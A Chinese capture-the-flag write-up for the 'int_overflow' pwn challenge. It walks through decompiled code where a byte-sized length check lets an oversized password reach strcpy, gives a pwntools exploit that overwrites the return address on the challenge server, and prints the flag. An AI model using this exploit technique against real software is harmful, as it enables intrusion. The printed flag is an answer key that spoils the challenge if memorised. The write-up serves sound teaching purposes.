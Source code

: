# int_overflow

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=f02f26fc-60b2-46d5-8909-4fa8803d7f04_2)

这道题6级对得起那些只有4级但是随便挑一个都比这个难的pwn题吗？

不过还是要注意一下这道题的溢出上限和其他的不同。

```c
undefined4 main(void)
{
  int local_14 [2];
  undefined *local_c;
  local_c = &stack0x00000004;
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("---------------------");
  puts("~~ Welcome to CTF! ~~");
  puts("       1.Login       ");
  puts("       2.Exit        ");
  puts("---------------------");
  printf("Your choice:");
  __isoc99_scanf(&DAT_08048a27,local_14);
  if (local_14[0] == 1) {
    login();
  }
  else {
    if (local_14[0] == 2) {
      puts("Bye~");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    puts("Invalid Choice!");
  }
  return 0;
}
```

这也没啥分析的，看看login里有啥。

```c
void login(void)
{
  undefined local_22c [512];
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  memset(local_22c,0,0x200);
  puts("Please input your username:");
  read(0,local_2c,0x19);
  printf("Hello %s\n",local_2c);
  puts("Please input your passwd:");
  read(0,local_22c,0x199);
  check_passwd(local_22c);
  return;
}
```

好像还是没东西，继续往check_passwd看看。

```c
void check_passwd(char *param_1)
{
  size_t sVar1;
  char local_18 [11];
  byte local_d;
  sVar1 = strlen(param_1);
  local_d = (byte)sVar1;
  if ((local_d < 4) || (8 < local_d)) {
    puts("Invalid Password");
    fflush(stdout);
  }
  else {
    puts("Success");
    fflush(stdout);
    strcpy(local_18,param_1);
  }
  return;
}
```

看到strcpy就该警觉起来了。典型危险函数，想要进到这个函数里就要绕过第一个if过滤。绕过过滤的条件是local_d，也就是param——我们输入的密码的长度大于4小于8。local_d也就是sVar1，sVar1是我们输入的密码的长度。题目已经说得很清楚了，int_overflow，很明显可以直接溢出。

我最开始没认真看，还以为溢出上限是2147483647。结果根本就发不出去，太长了。仔细看才发现存储长度的变量类型是byte。byte也就是一个字节，可存储8位无符号数，储存的数值范围为0-255。那只要strlen返回的长度超过5整个长度就会发生反转，重新变为0。懒得精确地算了，直接255+5绝对够了。

```python
from pwn import *
p=remote("61.147.171.105",58407)
overflowMax=260
payload=0x18*b'a'+p32(0x0804868b)
payload+=(overflowMax-len(payload))*b'a'
p.sendlineafter("Your choice:",'1')
p.sendlineafter("Please input your username:",'test')
p.sendlineafter("Please input your passwd:",payload)
print(p.recvall())
```

- ### Flag
  > cyberpeace{ad3d483d6b06be57ffd51630c887ede0}
